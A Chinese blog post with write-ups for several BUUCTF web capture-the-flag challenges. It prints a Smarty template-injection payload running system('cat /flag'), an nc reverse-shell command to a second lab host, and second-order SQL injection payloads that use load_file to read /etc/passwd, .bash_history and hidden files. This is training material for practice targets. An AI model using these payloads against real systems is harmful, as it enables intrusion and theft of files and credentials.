<!--yml
category: 未分类
date: 2022-04-26 14:33:27
-->

# BUUCTF__web题解合集（十）_风过江南乱的博客-CSDN博客

> 来源：[https://blog.csdn.net/tm_1024/article/details/108761112](https://blog.csdn.net/tm_1024/article/details/108761112)

## 前言

## 题目

### 1、[CISCN2019 华东南赛区]Web11

*   首先很明显的`ssti`模板注入，注入点在`xff`头，加上`X-Forwarded-For:127.0.0.1`后，右上角的ip会变化，输入`{{2*2}}`时回显是 4，
*   然后第二步就是确认模板选择注入payload。底部给出提示。为`smarty`模板，可以找到[相关资料](https://www.freebuf.com/column/219913.html)
    
*   已知能执行 `{if }{/if}`标签，比如执行 phpinfo() ,可以用`{if phpinfo()}{/if}`。
*   找到flag环境变量提示flag不在这里，就可能是有包含flag的文件。执行系统函数`{if system('cat /flag')}{/if}`成功得到flag，不过在注释里。做题时还以为执行失败了。。。
*   两点，第一点找到为ssti模板注入，并且确定为`smarty`模板。第二点就是执行正确的payload找到flag。
*   应该算基础的ssti注入，连过滤都没有。

### 2、[BJDCTF 2nd]Schrödinger

*   这应该算是脑洞题吧，页面全选或者查看源代码能有提示
    
*   尝试访问的话有一个登录页面，尝试sql注入无果。
*   返回继续看。提示你删除test.php。在cheak时抓包，发现`cookie` 中存在两个参数，有一个`dXNlcg`参数，后面的值能base64解密后发现为时间戳。随便修改后比如说1就弹出一个av号，b站搜av号就能找到flag。
    
*   感觉就是脑洞题。

### 3、[BJDCTF 2nd]duangShell

*   首先第一步提示了`.swp`源码泄露，访问`/.index.php.swp`下载文件，在linux下执行命令`vim -r index.php.swp`恢复文件得到源代码。因为.swp文件产生的原因就是vim编辑文件时的异常退出。

*   然后考点是命令执行，存在过滤，无法直接读取flag文件。第二步就是`弹shell`

*   [关于弹shell](https://blog.csdn.net/Kevinhanser/article/details/88920278)，可以利用nc反弹shell。因为buu不出外网，开一小号在`Basic`分类中开一台Linux Labs。根据提示ssh连上。然后ifconfig查看内网地址
    

*   图中第一个`174.1.80.221`就是内网地址，然后在这台主机上监听一个端口，`nc -lvvp 4455`

*   然后在题目中post传参nc另一台主机的内网地址就成功连上

    ```
    girl_friend=nc 174.1.80.221 4455 -e /bin/bash 
    ```



*   再执行`cat /flag`发现无回显，执行`find / -name / flag`找到flag所在位置，然后再`cat` 一下就行。
    
*   总结就是第一次接触反弹`shell` ，第一步源码泄露是常见的源码泄露的类型。注意点就是应该 nc 主机的内网地址。

### 4、[BSidesCF 2019]Futurella

### 5、[网鼎杯 2018]Comment

*   首先，第一步`.git`源码泄露和恢复。很多工具都能得到源码文件，但因为源码不全需要利用`.git`目录恢复历史版本，而我用其它的工具[GitHack](https://github.com/lijiejie/GitHack)、[GitHacker](https://github.com/wangyihang/githacker)、[scrabble](https://github.com/denny0223/scrabble)都没有成功恢复到`.git`目录。最后用之前做题时下载的一个[GitHack改进版](https://download.csdn.net/download/TM_1024/12889641)成功得到，但是我找不到原下载的地址了，就先上传到CSDN吧。卡了好久这里。
*   恢复源代码，先恢复文件`python GitHack.py url`
*   查看历史操作记录 `git log --reflog`
*   版本恢复 `git reset --hard commit`
    
*   得到源代码

```
<?php
include "mysql.php";
session_start();
if($_SESSION['login'] != 'yes'){
    header("Location: ./login.php");
    die();
}
if(isset($_GET['do'])){
switch ($_GET['do'])
{
case 'write':
    $category = addslashes($_POST['category']);
    $title = addslashes($_POST['title']);
    $content = addslashes($_POST['content']);
    $sql = "insert into board
            set category = '$category',
                title = '$title',
                content = '$content'";
    $result = mysql_query($sql);
    header("Location: ./index.php");
    break;
case 'comment':
    $bo_id = addslashes($_POST['bo_id']);
    $sql = "select category from board where id='$bo_id'";
    $result = mysql_query($sql);
    $num = mysql_num_rows($result);
    if($num>0){
    $category = mysql_fetch_array($result)['category'];
    $content = addslashes($_POST['content']);
    $sql = "insert into comment
            set category = '$category',
                content = '$content',
                bo_id = '$bo_id'";
    $result = mysql_query($sql);
    }
    header("Location: ./comment.php?id=$bo_id");
    break;
default:
    header("Location: ./index.php");
}
}
else{
    header("Location: ./index.php");
}
?> 
```

*   接下来是第二步，代码审计。第一点就是对于`addslashes`函数的转义过滤而言，在写入数据库时，不会讲增加的转义符`\` 写入，比如说，单引号经过函数处理应该是`\'`,写入时，还是`'`。
    
*   同时，在本题中可以发现,`category`读取时没有经过函数处理直接填入sql语句，而在上面的输入就经过了函数处理。所以，当我们输入`'111`时，最后写入数据库还是`'111`，但在执行写入的sql语句时是被转义的`\'111`在，最终在读取时直接填入sql语句就能闭合前面的单引号，引发注入。
    
*   然后思考怎么来利用，因为有留言版相关内容都有回显，所以最好的方法就是让它回显我们需要的内容。
*   第三步，二次注入。 利用多行注释`/**/`将后面输入的`content`注释掉，而在`category`存储时写入一个我们想要的`content`。
*   例如当我们的category=`' ,content = database(),/*`，在评论里提交`*/#`时，就能讲原有的`content`注释掉，而让`content`的值为数据库名称。#的作用是将后面的逗号注释，变灰部分就是注释。
    
*   留言前需要先登录，给出了账号，密码还缺少后面的三位，可以写个脚本爆破，或者盲猜666。



*   继续尝试读表、字段。内容发现没有flag。

    ```
    ' ,content =(select group_concat(table_name) from information_schema.tables where table_schema=database()) ,/* 
    ```

*   最后通过`user()`可以得知服务是以 root 权限运行的，可以用`load_file`函数读取文件，最常见的`etc/passwd`文件。
    

*   能发现文件路径web服务路径。然后然后，可以读取`.bash_history`，[它是什么](https://blog.csdn.net/qq_36119192/article/details/95881479?utm_medium=distribute.pc_relevant_t0.none-task-blog-BlogCommendFromMachineLearnPai2-1.channel_param&depth_1-utm_source=distribute.pc_relevant_t0.none-task-blog-BlogCommendFromMachineLearnPai2-1.channel_param)，它存储了当前用户输入过的历史命令。通过读取它来发现隐藏的文件。。。

    ```
    ', content=load_file('/home/www/.bash_history'),/* 
    ```



*   整理一下就是以下步骤

    ```
    cd /tmp/                   到 /tmp/目录下
    unzip html.zip             解压html.zip
     rm -f html.zip            删除html.zip
     cp -r html /var/www/      复制文件夹html 到 /var/www/目录下
     cd /var/www/html/          到 /var/www/目录下
     rm -f .DS_Store            删除 .DS_Store文件
     service apache2 start     重启apache2服务 
    ```

*   然后可以发现`/tmp/html`目录中`.DS_Store`原文件没被删除，它只删除了复制过去后的文件，而`.DS_Store`文件是Mac OS 操作系统所创造的隐藏文件，目的在于存贮目录的自定义属性，可能存放着其它文件。所以尝试读取它。直接读读不出来，那就加一个hex让它以16进制输出。

    ```
    ',content=(select hex(load_file('/tmp/html/.Ds_Store'))),/* 
    ```

*   可以得到一长串的16进制字符，将它转为ASCII字符，可以用WinHex新建一个文件，然后把16进制文件以ASCII Hex格式写入。
    

*   可以得到flag文件名
    

*   然后再去读取它，但是在原目录`/tmp/html`下读取的flag文件是假的。真正的flag文件在复制后的路径`/var/www/html`，并且flag在注释里，当然也可以像上面一样加一个hex让它以16进制字符串显示。

    ```
    ', content=(load_file('/var/www/html/flag_8946e1ff1ee3e40f.php')),/* 
    ```



*   结束，可以说是很复杂的题目了。。。第一步我就没了。。。后面的审计和实际注入也想不到。只能实际复现+理解了。

## 最后

*   可能不是写的很清楚，如果有疑问的话，欢迎留言一起交流。